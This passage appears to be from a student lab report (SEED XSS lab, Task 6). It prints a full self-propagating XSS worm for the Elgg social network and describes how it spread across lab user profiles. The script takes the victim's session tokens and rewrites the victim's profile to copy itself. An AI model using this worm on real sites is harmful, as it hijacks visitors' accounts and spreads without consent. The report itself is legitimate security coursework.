\section{Task 6: Writing a Self-Propagating XSS Worm}
%
\begin{lstlisting}[caption=XSS self-propagating script for modifying other profiles.,
    label={lst:xss_self_prop}]
<script id="worm" type="text/javascript">
    window.onload = function(){
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    // Construct self-propagating request
    // **** Self-propagating construction block starts
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    // **** End block

    //Construct the content of your url.
    var briefdescription = "&briefdescription=Hacked by Samy!!!";
    var description = `&description=${wormCode}`; // Self-propagating script is embeded to "About me" field
    var content = `${ts}${token}${guid}${userName}${description}${briefdescription}`; //FILL IN
    var samyGuid = "59"; //FILL IN
    var sendurl = "http://www.seed-server.com/action/profile/edit"; //FILL IN

    if(elgg.session.user.guid != samyGuid) // Line 1
        {
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type",
        "application/x-www-form-urlencoded");
        Ajax.send(content);
        }
    }
</script>
\end{lstlisting}

\begin{figure}
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/XSS_self_prop_boby.png}
    \caption{The XSS worm infected Boby's profile.}
    \label{fig:xss_worm_boby}
\end{figure}

In this task, we aimed to construct a XSS worm modifying the \emph{Brief Description} field of
other users into `Hacked by Samy!!!'. Firstly, we fine-tuned the script from task 5 so that
it now contains the block of self-propagating construction (see \autoref{lst:xss_self_prop}).
Besides, we need to add an \emph{id} field into the tag \emph{<script>} so that the method
\emph{getElementById()} can work properly. When the script was ready, we embeded the XSS
worm (\autoref{lst:xss_self_prop}) to Samy's \emph{About me}. Thus now, every user who
visits Samy's page would be infected. As a chain of attacking, a user who visits newly infected
profile would be affected as well, generating the spread of XSS worm. For instance, when Boby
visited Samy's page, Boby's \emph{Brief description} was changed and the XSS worm was embeded
into his \emph{About me} (see \autoref{fig:xss_worm_boby}). Next, when Alice visited Boby's
page, her profile was affected as well and she was a new souce of worm spreading (see
\autoref{fig:xss_worm_alice}).

\begin{figure}
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/XSS_self_prop_alice.png}
    \caption{The XSS worm infected Alice's profile.}
    \label{fig:xss_worm_alice}
\end{figure}